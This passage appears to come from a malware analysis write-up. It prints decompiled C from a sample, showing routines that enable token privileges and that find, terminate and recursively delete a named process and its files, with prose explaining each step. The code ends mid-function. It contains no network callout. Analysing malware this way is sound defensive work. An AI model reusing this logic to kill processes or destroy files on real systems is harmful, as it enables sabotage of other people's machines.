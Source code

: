 ```c
  piVar4 = &local_8;
  uVar3 = L'(';
  uVar1 = GetCurrentProcess();
  iVar2 = OpenProcessToken(uVar1,uVar3,piVar4);
  if (iVar2 == 0) {
    local_c = GetLastError();
  }
  else {
    iVar2 = LookupPrivilegeValueW(0,param_1,local_1c);
    if (iVar2 == 0) {
      local_c = GetLastError();
    }
    else {
      local_20 = 1;
      if (param_2 == 0) {
        local_10 = 0;
      }
      else {
        local_10 = 2;
      }
      uStack_14 = local_10;
      iVar2 = AdjustTokenPrivileges(local_8,0,&local_20,0x10,0,0);
      if (iVar2 == 0) {
        local_c = GetLastError();
      }
    }
  }
  if (local_8 != 0) {
    CloseHandle(local_8);
  }
  return local_c;
}
```

As mentioned above, we can see in FUN_100133d0 that the malware utilizes CreateToolhelp32Snapshot to iterate through all the live processes and terminate any process that matches a string parameter provided; it does so in the Find_Process_Name which then kills with TerminateProcess.

It will then enter a recursive loop in Recursive_Delete_FilesDirectories, which will go through and delete all files and directories associated with the process. Another aspect that appears frequently is the use of Sleep(100), which introduces a delay to ensure that things run smoothly and avoid errors while handling the files.

```c
void __cdecl FUN_100133d0(undefined1 (*param_1) [16])

{
  WCHAR local_218;
  uint local_216 [129];
  int local_10;
  undefined2 *local_c;
  int local_8;
  
  local_218 = L'\0';
  memset(local_216,0,0x206);
  Find_Process_Name(param_1,&local_218,&local_10);
  if (local_218 != L'\0') {
    TerminateProcess(local_10);
    local_c = (undefined2 *)FUN_1000ae90((undefined1 (*) [16])&local_218,0x5c);
    if (local_c != (undefined2 *)0x0) {
      *local_c = 0;
    }
    Sleep(100);
    Recursive_Delete_FilesDirectories(&local_218);
```